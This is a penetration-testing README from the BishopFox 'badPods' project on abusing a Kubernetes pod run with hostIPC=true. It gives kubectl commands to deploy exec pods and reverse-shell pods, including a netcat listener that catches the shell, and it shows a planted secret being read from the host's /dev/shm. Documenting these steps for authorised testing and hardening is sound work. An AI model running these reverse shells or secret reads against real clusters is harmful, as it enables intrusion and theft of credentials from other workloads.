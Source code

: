 # Bad Pod #7: hostIPC

If you only have `hostIPC=true`, you most likely can't do much. If any process on the host or any processes within another pod is using the host’s inter-process communication mechanisms (shared memory, semaphore arrays, message queues, etc.), you will be able to read/write to those same mechanisms. The first place you'll want to look is `/dev/shm`, as it is shared between any pod with `hostIPC=true` and the host. You'll also want to check out the other IPC mechanisms with `ipcs`.

* **Inspect /dev/shm** - Look for any files in this shared memory location. 
* **Inspect existing IPC facilities** – You can check to see if any IPC facilities are being used with `/usr/bin/ipcs`. 


## Table of Contents
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [Inspect /dev/shm - Look for any files in this shared memory location.](#inspect-devshm---look-for-any-files-in-this-shared-memory-location)
  - [Look for any use of inter-process communication on the host](#look-for-any-use-of-inter-process-communication-on-the-host)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl exec -it hostipc-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/[RESOURCE_TYPE]/hostipc-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostipc-exec-[RESOURCE_TYPE]      
kubectl exec -it hostipc-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostipc-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostipc/[RESOURCE_TYPE]/hostipc-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
kubectl delete pod hostipc-exec-pod
kubectl delete cronjob hostipc-exec-cronjob
```

# Post exploitation 

## Inspect /dev/shm - Look for any files in this shared memory location

For a super simple POC, I have created a secret file in /dev/shm on the worker node"
```
root@k8s-worker:/# echo "secretpassword=BishopFox" > /dev/shm/secretpassword.txt
```


From the hostIPC pod, we can list all files in /dev/shm
```
root@hostipc-exec-pod:/# ls -al /dev/shm/
total 4
drwxrwxrwt 3 root root  80 Dec 22 15:11 .
drwxr-xr-x 5 root root 360 Dec 21 20:01 ..
drwx------ 4 root root  80 Sep  9 20:10 multipath
-rw-r--r-- 1 root root  25 Dec 22 15:11 secretpassword.txt
```

Check out any interesting files
```
root@hostipc-exec-pod:/# cat /dev/shm/secretpassword.txt
secretpassword=BishopFox
```

## Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

## Attacks that apply to all pods, even without any special permissions

**To see these in more detail, head over to [nothing-allowed/README.md](../nothing-allowed)** 

* Access the cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 
* https://docs.docker.com/engine/reference/run/#ipc-settings---ipc
* https://opensource.com/article/20/1/inter-process-communication-linux
